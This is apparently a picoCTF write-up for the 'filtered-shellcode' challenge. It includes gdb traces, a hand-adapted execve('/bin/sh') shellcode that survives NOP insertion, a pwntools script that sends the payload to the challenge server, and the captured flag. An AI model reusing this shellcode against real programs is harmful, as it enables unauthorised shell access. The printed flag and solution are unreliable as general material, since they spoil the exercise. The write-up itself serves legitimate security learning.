

# filtered-shellcode

I have to come out as a culprit and say I had to cheat for this one. This one was too tough for my tiny brain. I had to use many references.

So binary exploitation, we have a binary executable which executes a shellcode. As written the question it is told it runs the shell code given, but does something "fun". we open the executable in ghidra


Now i am here... not understanding what to do, so i look into what the hint is, and it tell that we need to use the registers. So need to learn what registers are used for linux. At the end of it, realized that we need to focus on EAX as it is called and pushed right before the function call (is what i presume). so i set break points on the above highlighted lines and see what happens to an example input.

```
└─ gdb fun
gef➤  b *0x080485c9
Breakpoint 1 at 0x80485c9
gef➤  b *0x080486a2
Breakpoint 2 at 0x80486a2
gef➤  r
Starting program: /home/user1/picoCTF/fun/fun
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Give me code to run:
ABCDEF

Breakpoint 2, 0x080486a2 in main ()
```

```
gef➤  x/25b eax
0xffffcb63:     0x41    0x42    0x43    0x44    0x45    0x46    0xd5    0xff
0xffffcb6b:     0xf7    0x8e    0x80    0xfd    0xf7    0x0     0xb0    0xff
0xffffcb73:     0xf7    0x0     0x0     0x0     0x0     0xe     0x0     0x0
0xffffcb7b:     0x0
gef➤  c
Continuing.

Breakpoint 1, 0x080485c9 in execute ()
```

```
gef➤  x/25b eax
0xffffcb10:     0x41    0x42    0x90    0x90    0x43    0x44    0x90    0x90
0xffffcb18:     0x45    0x46    0x90    0x90    0xc3    0x85    0x4     0x8
0xffffcb20:     0x40    0x2a    0xfa    0xf7    0xa0    0xcb    0xff    0xf7
0xffffcb28:     0x10
gef➤  x/15i eax
   0xffffcb10:  inc    ecx
   0xffffcb11:  inc    edx
   0xffffcb12:  nop
   0xffffcb13:  nop
   0xffffcb14:  inc    ebx
   0xffffcb15:  inc    esp
   0xffffcb16:  nop
   0xffffcb17:  nop
   0xffffcb18:  inc    ebp
   0xffffcb19:  inc    esi
   0xffffcb1a:  nop
   0xffffcb1b:  nop
   0xffffcb1c:  ret
   0xffffcb1d:  test   DWORD PTR [eax+ecx*1],eax
   0xffffcb20:  inc    eax
gef➤  c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
```

```
gef➤  hexdump byte eax
0xffffcb10     61 62 90 90 63 64 90 90 65 66 90 90 c3 85 04 08    ab..cd..ef......
0xffffcb20     40 2a fa f7 a0 cb ff f7 10 cb ff ff 10 cb ff ff    @*..............
0xffffcb30     0c 00 00 00 0c 00 00 00 06 00 00 00 0c 00 00 00    ................
0xffffcb40     c0 86 04 08 00 a0 04 08 58 cf ff ff a8 86 04 08    ........X.......
```
(wow you could hexdump in gef, neat)

alright, we got the basic idea of what's happening. when we give an input till the execute function is called the input is sitting in eax. Then after the execute function the input after every two bytes there are two [NOP](https://en.wikipedia.org/wiki/NOP_(code)) inserted. And when we send that altered input, we get a segmentation fault. So our current objectives are
1) send input without the NOP or making it ignore the NOP
2) somehow find the flag in this netcat

let's tackle the second one first, if we want to search for the flag we need a terminal. so we need a shell. and after googling (who am i fooling i saw another writeup) we can use `/bin/sh` command to make a shell for us. So we need use [syscalls](https://asm.sourceforge.net/syscall.html) to send a command. me with 0 knowledge of this googled and found [shell-storm](http://shell-storm.org/). Basically there are bunch of shellcodes already made that you could just copy paste and exploit. But problem is the code breaks after 2 bytes so all our commands need to be exactly 2 bytes. Found this 28 bytes shell code from this [link](http://shell-storm.org/shellcode/files/shellcode-811.html) which mostly has 2 bytes.

```
8048060: 31 c0                 xor    eax,eax
8048062: 50                    push   eax
8048063: 68 2f 2f 73 68        push   0x68732f2f
8048068: 68 2f 62 69 6e        push   0x6e69622f
804806d: 89 e3                 mov    esp,ebx
804806f: 89 c1                 mov    eax,ecx
8048071: 89 c2                 mov    eax,edx
8048073: b0 0b                 mov    0xb,al
8048075: cd 80                 int    0x80
8048077: 31 c0                 xor    eax,eax
8048079: 40                    inc    eax
804807a: cd 80                 int    0x80
```

doing some adjusting for the 2 commands that are only 1 byte

```
31 c0                 xor    eax,eax
50                    push   eax
90                    nop
68 2f 2f 73 68        push   0x68732f2f
68 2f 62 69 6e        push   0x6e69622f
89 e3                 mov    esp,ebx
89 c1                 mov    eax,ecx
89 c2                 mov    eax,edx
b0 0b                 mov    0xb,al
cd 80                 int    0x80
31 c0                 xor    eax,eax
40                    inc    eax
90                    nop
cd 80                 int    0x80
```
now the tricky part is the big chunk of push we need to change. what we could do is put it in eax after clearing it, input 2 bytes, shift those 2 bytes, put the next 2 bytes, shift the whole thing, rinse and repeat, until we have the whole thing and push it. did some editing.
```
xor    %eax,%eax
xor    %ecx,%ecx
push   %eax
nop
xor    %eax,%eax
mov    cl,0x68
add    %eax,%ecx
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
mov    %cl,0x73
add    %eax,%ecx
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
mov    %cl,0x2f
add    %eax,%ecx
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
mov    %cl,0x2f
add    %eax,%ecx
push   %eax
nop
xor    %eax,%eax
mov    %cl,0x6e
add    %eax,%ecx
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
mov    %cl,0x69
add    %eax,%ecx
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
mov    %cl,0x62
add    %eax,%ecx
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
mov    %cl,0x2f
add    %eax,%ecx
push   %eax
nop
xor    %eax,%eax
mov    %ebx,%esp
mov    %ecx,%eax
mov    %edx,%eax
mov    %al,0xb
int    0x80
xor    %eax,%eax
inc    %eax
nop
int    0x80
```

ran this in [online assembler](https://defuse.ca/online-x86-assembler.htm)

`\x31\xC0\x31\xC9\x50\x90\x31\xC0\xB1\x68\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x73\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x2F\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x2F\x01\xC8\x50\x90\x31\xC0\xB1\x6E\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x69\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x62\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x2F\x01\xC8\x50\x90\x31\xC0\x89\xE3\x89\xC1\x89\xC2\xB0\x0B\xCD\x80\x31\xC0\x40\x90\xCD\x80`

we got the payload. now we load the payload. I used pwntools on python and ran it

```python
from pwn import remote

r = remote("mercury.picoctf.net", 35338)

print(r.recvline())
payload = b'\x31\xC0\x31\xC9\x50\x90\x31\xC0\xB1\x68\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x73\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x2F\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x2F\x01\xC8\x50\x90\x31\xC0\xB1\x6E\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x69\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x62\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x2F\x01\xC8\x50\x90\x31\xC0\x89\xE3\x89\xC1\x89\xC2\xB0\x0B\xCD\x80\x31\xC0\x40\x90\xCD\x80'
r.sendline(payload)
r.interactive()
```

and after running this code, this thing became bandit level 0 💀
```
└─$ python3 thistooktoolong.py
[+] Opening connection to mercury.picoctf.net on port 35338: Done
b'Give me code to run:\n'
[*] Switching to interactive mode
$ ls
flag.txt
fun
fun.c
xinet_startup.sh
$ cat flag.txt
picoCTF{th4t_w4s_fun_bf8b48641b742e27}
```

btw some bonus stuff. we have fun.c so we can see the original c code. where we can see that it converts a string pointer to a function pointer. so turning a string to function is dangerous and should be done when knowing what's happening. (lesson learnt 👍)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define MAX_LENGTH 1000

void execute(char *shellcode, size_t length) {
    if (!shellcode || !length) {
        exit(1);
    }
    size_t new_length = length * 2;
    char result[new_length + 1];

    int spot = 0;
    for (int i = 0; i < new_length; i++) {
        if ((i % 4) < 2) {
            result[i] = shellcode[spot++];
        } else {
            result[i] = '\x90';
        }
    }
    // result[new_length] = '\xcc';
    result[new_length] = '\xc3';

    // Execute code
    int (*code)() = (int(*)())result;
    code();
}

int main(int argc, char *argv[]) {
    setbuf(stdout, NULL);
    char buf[MAX_LENGTH];
    size_t length = 0;
    char c = '\0';

    printf("Give me code to run:\n");
    c = fgetc(stdin);
    while ((c != '\n') && (length < MAX_LENGTH)) {
        buf[length] = c;
        c = fgetc(stdin);
        length++;
    }
    if (length % 2) {
        buf[length] = '\x90';
        length++;
    }
    execute(buf, length);
    return 0;
}
```